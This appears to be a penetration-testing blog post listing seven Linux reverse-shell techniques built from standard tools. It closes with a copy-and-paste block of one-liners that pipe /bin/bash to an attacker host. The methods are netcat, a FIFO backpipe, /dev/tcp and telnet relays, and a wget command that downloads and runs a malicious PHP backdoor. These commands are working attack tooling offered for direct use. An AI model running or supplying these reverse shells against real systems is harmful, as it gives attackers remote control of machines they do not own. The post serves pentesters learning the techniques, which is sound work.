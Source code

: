 title: 7 Linux Shells Using Built-in Tools
publish: True
categories: [network security]

There are many distributions of linux, and they all do things a little different regarding default security and built-in tool sets. Which means when engaging these different flavors during a pentest, what works against one linux target to get an interactive shell, may not work against another. Well, not to worry my friends, there are many techniques for spawning shells, specifically reverse shells, from linux, and one or more of these techniques is bound to be available no matter which distro you're looking at.

The scenario is this: You have the ability to run a simple command, or cause a user to run a simple command, on the target system. Whether it be via a Remote Command Execution vulnerability in a website, or some sort of php injected XSS which causes a privileged user to run commands on the target system. There are many instances of this scenario. Starting from the easiest and most common, here are some of the techniques which can be used to gain reverse shell on the target system.

### #1. netcat

Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.

![](/images/posts/netcat.jpg)

...just kidding...

![](/images/posts/sh_nc_shell.png)

### #2. netcat with GAPING\_SECURITY\_HOLE disabled:

This is a little trick that [Ed Skoudis](https://twitter.com/#!/edskoudis) tweeted about in November of last year, but I haven't seen it widely publicized. It is based on the common technique used to build netcat relays. When the `GAPING_SECURITY_HOLE` is disabled, which means you don't have access to the '-e' option of netcat, most people pass on using netcat and move to something else. Well this just isn't necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to /bin/bash back into netcat. Sounds confusing right? The following image should clear things up.

![](/images/posts/sh_nc_gsh_shell.png)

### #3. netcat without netcat:

I love "hacks" that use features of the operating system against itself. This is one of those "hacks". It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system. It's not always available, but can be quite handy when it is.

![](/images/posts/sh_nc_wo_nc.png)

### #4. netcat without netcat or /dev/tcp:

/dev/tcp not available either? Just use telnet with technique #2.

![](/images/posts/sh_nc_telnet.png)

### #5. telnet-to-telnet:

I'm not sure why you'd use this technique, but it's an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

![](/images/posts/sh_tel2tel.png)

### #6. RCE shell:

On this one I'm cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the '&lt;rce&gt;' tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.

![](/images/posts/sh_rce.png)

### #7. PHP reverse shell via interactive console:

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

![](/images/posts/sh_php.png)

I want to end this post by stating that I am not the originator of techniques #1, 2, 3, 5, or 7. The majority of these techniques were learned in Ed Skoudis' amazing Security 504 and 560 classes available through SANS. Technique #4 is something I've never seen but stumbled across as I was conducting the demos for this post, so I'll take credit. Obviously, anyone can do #6, and there are plugins for various automated web app testing software packages that do, but I built my script from the ground up and tailored it to preference. If you know of any additional methods that may be helpful to the pentesting community, please leave in the comments below. Without sharing, we all fail. Thanks, and enjoy!

For copy and paste:

``` bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
